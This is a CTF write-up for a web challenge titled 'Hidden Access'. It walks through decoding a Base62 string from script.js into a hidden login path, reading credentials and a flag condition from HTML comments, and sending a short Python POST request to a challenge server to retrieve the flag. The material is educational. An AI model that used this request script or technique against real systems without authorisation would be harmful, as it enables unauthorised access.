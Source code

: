 ## 🕵️ Web CTF Challenge Writeup: *Hidden Access*

![Overview](assets/Overview.png)

### 🧩 Challenge Summary

The goal was to uncover a hidden login endpoint, bypass a basic frontend form, and extract a hidden flag through backend logic inspection.

---

### 🔍 Step-by-Step Walkthrough

#### 1. **Initial Recon and JavaScript Inspection**

![Overview](assets/Website.png)
![Overview](assets/SourceCode.png)

While examining the site assets, we discovered an interesting line in `script.js`:

```
console.log("The secret might lie at VioKZgIPYyrKc3NoFyYg43spccr0vOrW");
```

![Overview](assets/ScriptJS.png)

This string looked encoded. Upon investigation, it was **Base62 encoded**.

![Overview](assets/Dcode.png)

#### 2. **Decoding the Secret URL**

Using a Base62 decoder, we found:

```
/login.php?secret=hidden
```

![Overview](assets/Base62.png)

This hinted at a hidden login endpoint.

---

#### 3. **Source Code Review**

![Overview](assets/Webpage.png)

Accessing `/login.php?secret=hidden`, the page displayed a simple HTML login form. Viewing the **HTML source** revealed:

![Overview](assets/Source2.png)

```
<!-- username:admin123456 -->
<!-- password:admin123456 -->
...
<!-- if($_SERVER["REQUEST_METHOD"]=="POST"&&isset($_POST['reveal_flag'])&&$_POST['reveal_flag']=='true') -->
```

We found:

* Hardcoded credentials in comments.
* A commented-out line showing a secret condition: a `POST` request must include `reveal_flag=true`.

---

#### 4. **Crafting the Exploit**

Using Python and the `requests` module, we crafted the following script:

```
import requests

url = 'https://starfish-app-6tnq7.ondigitalocean.app/login.php?secret=hidden'

data = {
    'username': 'admin123456',
    'password': 'admin123456',
    'reveal_flag': 'true'
}

r = requests.post(url, data=data)
print(r.text)
```

---

### 🏁 Result

![Flag](assets/Flag.png)

Running the script successfully revealed the flag:

```
flag{y0u_g0t_!t}
```
---

## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*